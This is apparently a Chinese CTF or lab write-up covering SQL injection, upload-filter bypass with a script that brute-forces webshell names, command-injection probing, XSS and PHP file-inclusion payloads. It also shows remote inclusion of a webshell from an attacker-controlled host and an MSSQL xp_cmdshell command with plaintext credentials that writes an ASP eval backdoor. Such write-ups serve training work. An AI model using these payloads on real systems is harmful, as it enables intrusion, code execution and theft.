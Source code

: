 ### SQL注入

```sql
# 这里使用"闭合
admin"and 1=1 #
1
```

<img src="./assets/image-20241021140900775.png" alt="image-20241021140900775" style="zoom:67%;" />

- 然后再登录看看,发现获取到`key`了

<img src="./assets/image-20241021140915843.png" alt="image-20241021140915843" style="zoom:33%;" />

****

### 文件上传突破

- 这里发包的时候需要注意一下,它过滤了`代码执行函数`,`大写`可以绕过(一句话写在`红色区域`)
- 然后,把后缀名修改为`php`即可

<img src="./assets/image-20241021183412307.png" alt="image-20241021183412307" style="zoom:33%;" />

- 到这里可以发现`.php`文件上传成功了
- 文件名被加密了,加密方式如下

```bash
md5(sss1.php).php
md5(sss2.php).php
md5(sss3.php).php
...
md5(sss999.php).php
```

- 使用`python`生成满足以上规则的所有文件名放入列表遍历输出到文本进行爆破

```py
import hashlib
import os

# TODO:上传的文件名
file_name = "sss.php"
# TODO:定义一个空列表
file_names = []

# TODO:生成所有可能的文件名
for rand_num in range(1, 1000):
    # TODO:md5哈希
    base_char = f"{file_name}{rand_num}".encode()
    hash_char = hashlib.md5(base_char)
    md5_hash_char = hash_char.hexdigest()

    # TODO:生成文件名
    end_name = f"{md5_hash_char}.php"
    file_names.append(end_name)

# TODO:定义桌面路径
desktop_path = os.path.join(os.path.expanduser("~"), "Desktop", "path.txt")
with open(desktop_path, 'w') as f:
    for name in file_names:
        f.write(name + '\n')
print(f"文件名已保存到桌面: {desktop_path}")
```

![image-20241022092713476](./assets/image-20241022092713476.png)

- 拿去爆破

![image-20241021183435560](./assets/image-20241021183435560.png)

- 一个一个尝试连接`蚁剑`,因为之前测试时上传了一些同名文件

<img src="./assets/image-20241021183505787.png" alt="image-20241021183505787" style="zoom:33%;" />

- 翻阅代码获取`key`

![image-20241021183917815](./assets/image-20241021183917815.png)

****

### 远程命令执行

![image-20241021153721491](./assets/image-20241021153721491.png)

- 这里发现输出到文本了但是内容和我们在网页看到的是一样的,也就是说不是`输出被限制了`,而是被过滤了

![image-20241021153738380](./assets/image-20241021153738380.png)

- 但是发现很多命令用不了,这里有个坑(`惯性思维,能执行代码的地方我们就一定会执行whoami`,所以他把whoami也给过滤了)
- 导致我做了很多`无效`测试,最终陷入自我怀疑

```
127.0.0.1 && dir >> 3.txt //可以写
127.0.0.1||whaomi	//非法
127.0.0.1&&whaomi	//能ping无回显
127.0.0.1|whoami	//非法
127.0.0.1&whoami	//非法
127.0.0.1 && ls >> 4.txt	//没写入
;127.0.0.1	//非法
```

- 几个小时以后我再次尝试发现`cat`能用双引号绕过

- ![image-20241021200744083](./assets/image-20241021200744083.png)

- `检查源码`

<img src="./assets/image-20241021200830422.png" alt="image-20241021200830422"  />

****

### XSS

```js
<script>alert(document.cookie)</script>
```

![image-20241022110140795](./assets/image-20241022110140795.png)



- 执行效果

![image-20241022110242971](./assets/image-20241022110242971.png)

### 文件包含

- 伪协议:

```php
http://192.168.100.60:83/start/index.php?page=data:text/plain,%3C?php%20@eval($_POST[1]);?%3E //直接连
或者
http://192.168.100.60:83/start/index.php?page=data:text/plain,%3C?php%20system(%27cat%20/var/www/html/key.php%27);?%3E //查看源码
```

<img src="./assets/image-20241021193108076.png" alt="image-20241021193108076" style="zoom: 80%;" />

- 也可以使用`远程文件包含`,开一个9000端口

<img src="./assets/image-20241021164047702.png" alt="image-20241021164047702" style="zoom:33%;" />

- 远程文件包含,使用`%23`截断txt

  http://192.168.100.60:83/start/index.php?page=http://192.168.71.6:9000/shell_4.php%23

<img src="./assets/image-20241021164025449.png" alt="image-20241021164025449" style="zoom: 50%;" />

- 翻阅源码获取`key`

![image-20241021164352297](./assets/image-20241021164352297.png)

****

### web渗透

- 扫描端口

<img src="./assets/image-20241022111837597.png" alt="image-20241022111837597" style="zoom:50%;" />

- `弱口令`检查

<img src="./assets/image-20241022111814028.png" alt="image-20241022111814028" style="zoom:50%;" />

- 连接`ftp`下载源码

<img src="./assets/image-20241022111951562.png" alt="image-20241022111951562" style="zoom:50%;" />

- 获取到`数据库账号密码`

<img src="./assets/image-20241022112028644.png" alt="image-20241022112028644" style="zoom:50%;" />

- 连接mssql数据库试试,获取`网站路径`

```bash
xp_cmdshell dir /s /b C:\*.asp
```

<img src="./assets/image-20241022125631965.png" alt="image-20241022125631965" style="zoom:50%;" />

- 随便选一个路径,写入asp一句话

```cmd
SharpSQLTools.exe 192.168.100.61:1433 sa 1qaz!QAZ crm xp_cmdshell "echo ^<%eval request^(\"cmd\"^) %^> > C:\www\login\shell.asp"
```

![image-20241022125749166](./assets/image-20241022125749166.png)

- 写入成功,访问看看能否访问

